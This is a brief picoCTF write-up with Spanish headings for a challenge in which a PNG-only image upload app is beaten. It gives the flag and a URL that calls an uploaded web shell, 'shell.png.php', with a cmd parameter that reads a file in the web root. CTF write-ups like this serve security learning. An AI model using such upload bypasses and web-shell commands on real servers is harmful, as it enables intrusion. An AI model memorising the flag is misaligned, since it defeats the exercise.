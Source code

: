 #### - **Descripción** 
I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:65020/)!

**Pista**

#### - **Solución** 
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}
http://atlas.picoctf.net:60163/uploads/shell.png.php?cmd=cat%20/var/www/html/GNTDOMBWGIZDE.txt